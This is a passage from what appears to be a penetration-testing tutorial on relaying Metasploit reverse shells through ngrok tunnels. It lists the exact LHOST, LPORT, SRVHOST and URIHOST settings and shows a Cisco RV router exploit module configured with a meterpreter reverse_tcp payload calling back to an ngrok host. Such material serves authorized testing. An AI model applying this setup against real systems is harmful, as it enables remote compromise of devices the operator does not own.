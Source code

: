 ```shell
```
Now let's use these tunnels in a Metasploit exploit setup.

In order for Metasploit to work with the ngrok tunnels, you need to specify the right parameters in Metasploit.
First of all you need to configure the `LHOST` and `LPORT` parameter which is your attacker machine. 

In a local NAT setup, you will configure your private IP and port here, but if you want to make it work across the WAN you need to configure the ngrok tunnel side that is accessible from the Internet.
In our case, using the command `set LHOST 6.tcp.eu.ngrok.io` and `set LPORT 14594`. 

However, do not forget to configure the other side of the ngrok tunnel in Metasploit to your local listener 0.0.0.0 that runs on port 1970.
This can be done by using the advanced option in MSF using the command `set ReverseListenerBindAddress 0.0.0.0` and `set ReverseListenerBindPort 1970`.

If you use an exploit with a http(s) stager using `SRVHOST` and `SRVPORT`, you need to do a similar configuration by applying the command `set SRVHOST 0.0.0.0` and `set SRVPORT 1981`.

Again with the advanced option, use the command `set URIHOST 64db913882c5.eu.ngrok.io` and `set URIPORT 80` to match the public accessible side of the ngrok http tunnel.

<span style="color:yellow"><i class="fa fa-info-circle"></i></span> please notice that `LHOST` and `LPORT` mapping to ngrok is opposite versus the `SRVHOST` and `SRVPORT` mapping.
{: .notice--info}

The example below shows the ngrok setup for one of the newer exploits in MSF.

```shell
msf6 exploit(linux/http/cisco_rv_series_authbypass_and_rce) > options

Module options (exploit/linux/http/cisco_rv_series_authbypass_and_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     <TARGET-IP>      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0
                                         .0.0 to listen on all addresses.
   SRVPORT    1981             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting    Required  Description
   ----   ---------------    --------  -----------
   LHOST  6.tcp.eu.ngrok.io  yes       The listen address (an interface may be specified)
   LPORT  14594              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper
```